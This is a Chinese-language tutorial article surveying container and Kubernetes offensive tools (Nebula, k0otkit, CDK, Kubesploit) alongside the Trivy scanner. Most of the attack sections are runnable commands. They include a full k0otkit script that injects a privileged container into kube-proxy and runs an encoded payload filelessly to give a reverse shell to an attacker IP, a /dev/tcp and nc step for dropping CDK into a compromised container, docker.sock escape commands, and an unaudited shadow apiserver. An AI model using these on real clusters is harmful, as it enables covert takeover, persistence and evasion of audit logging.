







# 最终章：容器安全自动化工具

  

容器安全攻击工具的研究主要集中在探索和模拟攻击者如何利用容器技术的潜在弱点来发起攻击，从而帮助安全团队更好地理解风险并加强防御措施。这些工具在安全研究领域用于以下目的：

1.  漏洞利用：开发或集成可以检测和利用容器镜像内软件和服务漏洞的工具，例如 CVE-2019-5736 这样的 Docker 逃逸漏洞。
    
2.  镜像审计：创建能够深入分析容器镜像内容的安全工具，如 Trivy、Clair 等，查找已知的安全漏洞、恶意软件以及其他不合规配置。
    
3.  运行时攻击模拟：设计工具来模拟对容器运行环境的攻击，包括权限提升、资源滥用、网络攻击等，如通过访问控制不当、API 接口滥用等手段尝试进行逃逸攻击。
    
4.  供应链安全测试：检验容器构建流程及依赖库的安全性，以防止供应链污染，这类工具可能用来检测是否从不可信源拉取镜像或包含有漏洞的组件。
    
5.  编排平台安全测试：针对 Kubernetes 等容器编排平台的安全测试工具，用于探测平台配置缺陷、RBAC 设置错误、API Server 暴露等问题。
    

值得注意的是，这类工具应当仅限于合法的安全研究、渗透测试和防御性安全演练，确保在得到授权的情况下使用，切勿用于非法攻击活动。通过此类工具的研究与应用，企业能够更有效地识别自身容器环境中的安全弱点，并针对性地制定防护策略与应急预案。

  

  

**0****1**

**Nebula**

  

  

  

  

工具介绍

Nebula 是一个云和 DevOps 渗透测试框架，它为每个提供者和每个功能构建了模块，截至 2021 年 4 月，它仅涵盖 AWS，但目前是一个正在进行的项目，有望继续发展以测试 GCP、Azure、Kubernetes、Docker 或 Ansible、Terraform、Chef 等自动化引擎  
       项目地址：https://github.com/gl4ssesbo1/Nebula

覆盖范围：

-   S3 Bucket name bruteforce
    
-   IAM, EC2, S3, STS and Lambda Enumeration
    
-   IAM, EC2, STS, and S3 exploitation
    
-   SSM Enumeration + Exploitation
    
-   Custom HTTP User-Agent
    
-   Enumerate Read Privileges (working on write privs)
    
-   Reverse Shell
    
-   No creds Reconnaisance
    

-   Reconnaissance
    
-   Enumeration
    
-   Exploit
    
-   Cleanup
    
-   Reverse Shell
    

## 使用教程

### 平台安装

    这里仅介绍 docker 安装工具平台，下载项目文件：

```plain
git clone https://github.com/gl4ssesbo1/Nebula
docker pull gl4ssesbo1/nebula:latest
```

  



  

```plain
cd Nebula
docker run -v $(pwd):/app -ti gl4ssesbo1/nebula:latest main.py
```

  



  

  

### 帮助信息

```plain
()()(AWS) >>> help

    Help Command:               Description:
    -------------               ------------

    help                        Show help for all the commands
    help credentials            Show help for credentials
    help module                 Show help for modules
    help workspace              Show help for credentials
    help user-agent             Show help for credentials
    help shell                  Show help for shell connections


    Module Commands             Description
    ---------------             -----------

    show modules                List all the modules
    show enum                   List all Enumeration modules
    show exploit                List all Exploit modules
    show persistence            List all Persistence modules
    show privesc                List all Privilege Escalation modules
    show reconnaissance         List all Reconnaissance modules
    show listener               List all Reconnaissance modules
    show cleanup                List all Enumeration modules
    show detection              List all Exploit modules
    show detectionbypass        List all Persistence modules
    show lateralmovement        List all Privilege Escalation modules
    show stager                 List all Reconnaissance modules

    use module <module>         Use a module.
    options                     Show options of a module you have selected.
    run                         Run a module you have selected. Eg: 'run <module name>'
    search                      Search for a module via pattern. Eg: 'search s3'
    back                        Unselect a module
    set <option>                Set option of a module. Need to have the module used first.
    unset <option>              Unset option of a module. Need to have the module used first.


    User-Agent commands         Description
    -------------------         -----------

    set user-agent windows      Set a windows client user agent
    set user-agent linux        Set a linux client user agent
    set user-agent custom       Set a custom client user agent
    show user-agent             Show the current user-agent
    unset user-agent            Use the user agent that boto3 produces


    Workspace Commands          Description
    ------------------          -----------

    create workspace <wp>       Create a workspace
    use workspace <wp>          Use one of the workspaces
    remove workspace <wp>       Remove a workspace


    Shell commands              Description
    -------------------         -----------

    shell check_env             Check the environment you are in, get data and meta-data
    shell exit                  Kill a connection
    shell <command>             Run a command on a system. You don't need " on the command, just shell <command1> <command2>
```

  

### 权限查看

```plain
(test)()(AWS) >>> getuid
------------------------------------------------
UserId: A******************Q
------------------------------------------------
        UserID: A******************Q
        Arn: arn:aws:iam::012345678912:user/user_user
        Account: 012345678912
[*] Output is saved to './workspaces/test/12_07_2021_02_22_54_getuid_dev_brian'
```

```plain
(test)()(AWS) >>> enum_user_privs
User: user_user
        UserID: A******************Q
        Arn: arn:aws:iam::012345678912:user/user_user
        Account: 012345678912
--------------------------
Service: ec2
--------------------------
[*] Trying the 'Describe' functions:
[*] 'describe_account_attributes' worked!
[*] 'describe_addresses' worked!
[*] 'describe_aggregate_id_format' worked!
[*] 'describe_availability_zones' worked!
[*] 'describe_bundle_tasks' worked!
[*] 'describe_capacity_reservations' worked!
[*] 'describe_client_vpn_endpoints' worked!
[*] 'describe_coip_pools' worked!
[*] 'describe_customer_gateways' worked!
[*] 'describe_dhcp_options' worked!
[*] 'describe_egress_only_internet_gateways' worked!
^C[*] Stopping. It might take a while. Please wait.
[*] Output of the allowed functions is saved to './workspaces/test/12_07_2021_02_24_09_enum_user_privs'
[*] The list of the allowed functions is saved to './workspaces/test/12_07_2021_02_24_09_allowed_functions'
```

  

### 模块查询

```plain
()()(AWS) >>> show modules
        cleanup/aws_iam_delete_access_key                                     Delete access key of a user by providing
                                                                                it.

        cleanup/aws_iam_delete_login_profile                                  Delete access of a user to the Management
                                                                                Console

        enum/aws_ec2_enum_elastic_ips                                         Lists User data of an Instance provided.
                                                                                Requires Secret Key and Access Key of an IAM that has access
                                                                                to it.

        enum/aws_ec2_enum_images                                              List all ec2 images. Needs credentials of an
                                                                                IAM with DescribeImages right. Output is dumpled on a file.
                                                                                It takes a sh*tload of time, unfortunately. And boy, is it a
                                                                                huge output.

        enum/aws_ec2_enum_instances                                           Describes instances attribues: Instances, VCP,
                                                                                Zones, Images, Security Groups, Snapshots, Subnets, Tags,
                                                                                Volumes. Requires Secret Key and Access Key of an IAM that
                                                                                has access to all or any of the API calls:
                                                                                DescribeAvailabilityZones, DescribeImages,
                                                                                DescribeInstances, DescribeKeyPairs, DescribeSecurityGroups,
                                                                                DescribeSnapshots, DescribeSubnets, DescribeTags,
                                                                                DescribeVolumes, DescribeVpcs
```

  

类型列举：

```plain
show module
show enum
show exploit
show persistence
show privesc
show reconnaissance
show listener
show cleanup
show detection
show detectionbypass
show lateralmovement
show stager
```

  

### 模块检索

```plain
()()(AWS) >>> search instance
        enum/aws_ec2_enum_instances                                           Describes instances attribues: Instances, VCP,
                                                                                Zones, Images, Security Groups, Snapshots, Subnets, Tags,
                                                                                Volumes. Requires Secret Key and Access Key of an IAM that
                                                                                has access to all or any of the API calls:
                                                                                DescribeAvailabilityZones, DescribeImages,
                                                                                DescribeInstances, DescribeKeyPairs, DescribeSecurityGroups,
                                                                                DescribeSnapshots, DescribeSubnets, DescribeTags,
                                                                                DescribeVolumes, DescribeVpcs

        enum/aws_iam_list_instance_profiles                                   List all the instance profiles.

        exploit/aws_ec2_create_instance_with_user_data                        You must provide policies in JSON format in
                                                                                IAM. However, for AWS CloudFormation templates formatted in
                                                                                YAML, you can provide the policy in JSON or YAML format. AWS
                                                                                CloudFormation always converts a YAML policy to JSON format
                                                                                before submitting it to IAM.

()()(AWS) >>>
```

  

### 模块使用

```plain
(work1)()(enum/aws_ec2_enum_instances) >>> use module enum/aws_iam_get_group
(work1)()(enum/aws_ec2_enum_instances) >>>
```

  

### 模块细节

```plain
(work1)()(enum/aws_ec2_enum_instances) >>> options
Desctiption:
-----------------------------
        Describes instances attribues: Instances, VCP, Zones, Images, Security Groups, Snapshots, Subnets, Tags, Volumes. Requires Secret Key and Access Key of an IAM that has access to all or any of the API calls: DescribeAvailabilityZones, DescribeImages, DescribeInstances, DescribeKeyPairs, DescribeSecurityGroups, DescribeSnapshots, DescribeSubnets, DescribeTags, DescribeVolumes, DescribeVpcs

Author:
-----------------------------
        name:   gl4ssesbo1
        twitter:        https://twitter.com/gl4ssesbo1
        github: https://github.com/gl4ssesbo1
        blog:   https://www.pepperclipp.com/

AWSCLI Command:
-----------------------------
        aws ec2 describe-instances --region {} --profile {}

Needs Credentials: True
-----------------------------

Options:
-----------------------------
        SERVICE:        ec2
                Required: true
                Description: The service that will be used to run the module. It cannot be changed.

        INSTANCE-ID:
                Required: false
                Description: The ID of the instance you want to enumerate. If not supplied, all instances will be enumerated.

(work1)()(enum/aws_ec2_enum_instances) >>>
```

**反弹 shell**

```plain
A、Stager
()()(AWS) >>> use module stager/aws_python_tcp
()()(stager/aws_python_tcp) >>> options
Desctiption:
-----------------------------
        The TCP Reverse Shell that is used by listeners/aws_python_tcp_listener

Author:
-----------------------------
        name:   gl4ssesbo1
        twitter:        https://twitter.com/gl4ssesbo1
        github: https://github.com/gl4ssesbo1
        blog:   https://www.pepperclipp.com/

Needs Credentials: False
-----------------------------

AWSCLI Command:
-----------------------------
        None

Options:
-----------------------------
        SERVICE:        none
                Required: true
                Description: The service that will be used to run the module. It cannot be changed.

        HOST:
                Required: true
                Description: The Host/IP of the C2 Server.

        PORT:
                Required: true
                Description: The C2 Server Port.

        FORMAT:
                Required: true
                Description: The format of the stager. Currently only allows 'py' for Python and 'elf' for ELF Binary.

        CALLBACK-TIME:  None
                Required: true
                Description: The time in seconds between callbacks from Stager. The Stager calls back even if the server crashes or is stoped in a loop.

        OUTPUT-FILE-NAME:
                Required: true
                Description: The name of the stager output file.
B、Listener
()()(stager/aws_python_tcp) >>> use module listeners/aws_python_tcp_listener
()()(listeners/aws_python_tcp_listener) >>> options
Desctiption:
-----------------------------
        TCP Listener for Reverse Shell stagers/aws_python_tcp

Author:
-----------------------------
        name:   gl4ssesbo1
        twitter:        https://twitter.com/gl4ssesbo1
        github: https://github.com/gl4ssesbo1
        blog:   https://www.pepperclipp.com/

Needs Credentials: False
-----------------------------

AWSCLI Command:
-----------------------------
        None

Options:
-----------------------------
        SERVICE:        none
                Required: true
                Description: The service that will be used to run the module. It cannot be changed.

        HOST:   0.0.0.0
                Required: true
                Description: The Host/IP of the C2 Server.

        PORT:
                Required: true
                Description: The C2 Server Port.
C、Agents
()()(AWS) >>> set user-agent linux
User Agent: Boto3/1.9.89 Python/3.8.1 Linux/4.1.2-34-generic was set
()()(AWS) >>> show user-agent
[*] User Agent is: Boto3/1.9.89 Python/3.8.1 Linux/4.1.2-34-generic
()()(AWS) >>> set user-agent windows
User Agent: Boto3/1.7.48 Python/3.9.1 Windows/7 Botocore/1.10.48 was set
()()(AWS) >>> show user-agent
[*] User Agent is: Boto3/1.7.48 Python/3.9.1 Windows/7 Botocore/1.10.48
()()(AWS) >>> set user-agent custom
Enter the User-Agent you want: sth
User Agent: sth was set
()()(AWS) >>> show user-agent
[*] User Agent is: sth
()()(AWS) >>>
```

**02**

**k0otkit**

  

  

  

## 工具介绍

k0otkit 是一种通用的后渗透技术，可用于对 Kubernetes 集群的渗透，攻击者可以使用 k0otkit 快速、隐蔽和连续的方式 (反向 shell) 操作目标 Kubernetes 集群中的所有节点，K0otkit 使用到的技术主要有以下几个：

-   kube-proxy 镜像 (就地取材)
    
-   动态容器注入 (高隐蔽性)
    
-   Meterpreter(流量加密)
    
-   无文件攻击 (高隐蔽性)
    
-   DaemonSet 和 Secret 资源 (快速持续反弹、资源分离)
    

工具下载地址：https://github.com/Metarget/k0otkit

## 工具使用

```plain
git clone https://github.com/Metarget/k0otkit
cd k0otkit/
chmod +x ./*.sh
```

替换 pre\_exp.sh 文件中的 ATTACKER\_IP 与 ATTACKER\_PORT 以及载荷位数

```plain
ATTACKER_IP=192.168.77.219
ATTACKER_PORT=4444
```

  

生成 k0otkit


复制 k0otkit.sh 中的内容到 master 节点中去执行 (注意 kubeconfig 文件的位置)

```plain
volume_name=cache

mount_path=/var/kube-proxy-cache

ctr_name=kube-proxy-cache

binary_file=/usr/local/bin/kube-proxy-cache

payload_name=cache

secret_name=proxy-cache

secret_data_name=content

ctr_line_num=$(kubectl --kubeconfig /home/r00t/.kube/config -n kube-system get daemonsets kube-proxy -o yaml | awk '/ containers:/{print NR}')

volume_line_num=$(kubectl --kubeconfig /home/r00t/.kube/config -n kube-system get daemonsets kube-proxy -o yaml | awk '/ volumes:/{print NR}')

image=$(kubectl --kubeconfig /home/r00t/.kube/config -n kube-system get daemonsets kube-proxy -o yaml | grep " image:" | awk '{print $2}')

# create payload secret
cat << EOF | kubectl --kubeconfig /home/r00t/.kube/config apply -f -
apiVersion: v1
kind: Secret
metadata:
  name: $secret_name
  namespace: kube-system
type: Opaque
data:
  $secret_data_name: N2Y0NTRjNDYwMTAxMDEwMDAwMDAwMDAwMDAwMDAwMDAwMjAwMDMwMDAxMDAwMDAwNTQ4MDA0MDgzNDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzNDAwMjAwMDAxMDAwMDAwMDAwMDAwMDAwMTAwMDAwMDAwMDAwMDAwMDA4MDA0MDgwMDgwMDQwOGNmMDAwMDAwNGEwMTAwMDAwNzAwMDAwMDAwMTAwMDAwNmEwYTVlMzFkYmY3ZTM1MzQzNTM2YTAyYjA2Njg5ZTFjZDgwOTc1YjY4YzBhODExYTU2ODAyMDAxMTVjODllMTZhNjY1ODUwNTE1Nzg5ZTE0M2NkODA4NWMwNzkxOTRlNzQzZDY4YTIwMDAwMDA1ODZhMDA2YTA1ODllMzMxYzljZDgwODVjMDc5YmRlYjI3YjIwN2I5MDAxMDAwMDA4OWUzYzFlYjBjYzFlMzBjYjA3ZGNkODA4NWMwNzgxMDViODllMTk5YjYwY2IwMDNjZDgwODVjMDc4MDJmZmUxYjgwMTAwMDAwMGJiMDEwMDAwMDBjZDgw
EOF

# assume that ctr_line_num < volume_line_num
# otherwise you should switch the two sed commands below

# inject malicious container into kube-proxy pod
kubectl --kubeconfig /home/r00t/.kube/config -n kube-system get daemonsets kube-proxy -o yaml \
  | sed "$volume_line_num a\ \ \ \ \ \ - name: $volume_name\n        hostPath:\n          path: /\n          type: Directory\n" \
  | sed "$ctr_line_num a\ \ \ \ \ \ - name: $ctr_name\n        image: $image\n        imagePullPolicy: IfNotPresent\n        command: [\"sh\"]\n        args: [\"-c\", \"echo \$$payload_name | perl -e 'my \$n=qq(); my \$fd=syscall(319, \$n, 1); open(\$FH, qq(>&=).\$fd); select((select(\$FH), \$|=1)[0]); print \$FH pack q/H*/, <STDIN>; my \$pid = fork(); if (0 != \$pid) { wait }; if (0 == \$pid){system(qq(/proc/\$\$\$\$/fd/\$fd))}'\"]\n        env:\n          - name: $payload_name\n            valueFrom:\n              secretKeyRef:\n                name: $secret_name\n                key: $secret_data_name\n        securityContext:\n          privileged: true\n        volumeMounts:\n        - mountPath: $mount_path\n          name: $volume_name" \
  | kubectl --kubeconfig /home/r00t/.kube/config replace -f -
```

  



  

  

等待反弹 shell 回来





逃逸并控制节点



  

  

**03**

**CDK Tools**

  

  

  

  

  

## 工具简介

CDK 是一款为容器环境定制的渗透测试工具，在已攻陷的容器内部提供零依赖的常用命令及 PoC/EXP，集成 Docker/K8s 场景特有的逃逸、横向移动、持久化利用方式，插件化管理  
工具地址：https://github.com/cdk-team/CDK

## 使用教程

### 下载植入

将可执行文件投递到已攻入的容器内部开始使用：https://github.com/cdk-team/CDK/releases/

#### 技巧：在真实渗透中如何通过漏洞 exploit 向容器中投递 CDK

1.  将 CDK 下载到你的公网服务器，监听端口：
    

```plain
nc -lvp 999 < cdk
```

2.  在已攻入的目标容器中执行：
    

```plain
cat < /dev/tcp/(你的IP)/(端口) > cdk
chmod a+x cdk
```

### 内网穿透

评估容器弱点


containerd-shim(CVE-2020-15257) 漏洞逃逸

通过共享的 net namespace 向宿主机的 containerd-shim 进程发起请求，利用其特性反弹宿主机的 shell 到远端服务器。


docker.sock 漏洞逃逸

通过本地 docker.sock 向控制宿主机的 docker 进程，拉取指定的后门镜像并运行，运行过程中镜像将宿主机的根目录/挂载到容器内部的/host 目录下，便于通过后门容器修改宿主机本地文件 (如 crontab) 来完成逃逸。

```plain
# deploy image from dockerhub
./cdk run docker-sock-deploy /var/run/docker.sock alpine:latest

# deploy image from user image registry
./cdk run docker-sock-deploy registry.cn-shanghai.aliyuncs.com/sandboxed-container/cve-2019-5736:change_root_pwd
```

部署 K8s shadow apiserver

向 K8s 集群中部署一个 shadow apiserver，该 apiserver 具有和集群中现存的 apiserver 一致的功能，同时开启了全部 K8s 管理权限，接受匿名请求且不保存审计日志。便于攻击者无痕迹的管理整个集群以及下发后续渗透行动。

```plain
./cdk run k8s-shadow-apiserver default
```


  

**04**

**Kubesploit**

  

  

  

  

  

  

  

  

## 工具简介

Kubesploit 是一个功能强大的跨平台后渗透漏洞利用 HTTP/2 命令&控制服务器和代理工具，基于 Merlin 项目实现其功能，主要针对的是容器化环境的安全问题。

下载地址：https://github.com/cyberark/kubesploit


## 使用教程

### 工具安装

首先，我们需要使用下列命令将该项目源码克隆至本地：

```plain
git clone https://github.com/cyberark/kubesploit.git
```

```plain
make
```

### 快速构建

如需在 Linux 系统下对项目进行快速构建，可以直接运行下列命令：

```plain
export PATH=$PATH:/usr/local/go/bin
go build -o agent cmd/merlinagent/main.go
go build -o server cmd/merlinserver/main.go
```

### 使用

使用开源的 Kubernetes 漏洞扫描和测试，使用命令 ./server 运行 Kubesploit 服务器。通过对 Kubesploit 服务器环境执行代理列表来检查代理连接是否已启用。

要扫描 URL 中的多个地址，我们使用 PortScan 模块，如下所示：  


通过允许创建豁免容器来最小化容器漏洞，使用 ContainerBreakoutMounting 模块：  


  

  

**05**

**Trivy：镜像安全扫描工具**

  

## 工具介绍

在镜像安全管控中，已知漏洞风险的扫描发现是非常重要和基础的一个环节。

    Trivy 作为镜像安全领域的一款优秀和强大的安全扫描工具，已经被不少团队集成和使用。

  

## 使用教程

General usage

```plain
trivy <target> [--scanners <scanner1,scanner2>] <subject>
```

```plain
trivy image python:3.4-alpine
```

Result

```plain
trivy fs --scanners vuln,secret,misconfig myproject/
```

Result

```plain
trivy k8s --report summary cluster
```

  

**06**

**Ak/Sk利用工具**

## 工具介绍

    项目地址：https://github.com/dark-kingA/cloudTools/releases/

    v0.1.1 链接: https://pan.baidu.com/s/1HxuceBE7FoFmD0WNwDeUNA?pwd=dfyx 提取码: dfyx 

# 引用

https://cloud.tencent.com/developer/article/2350135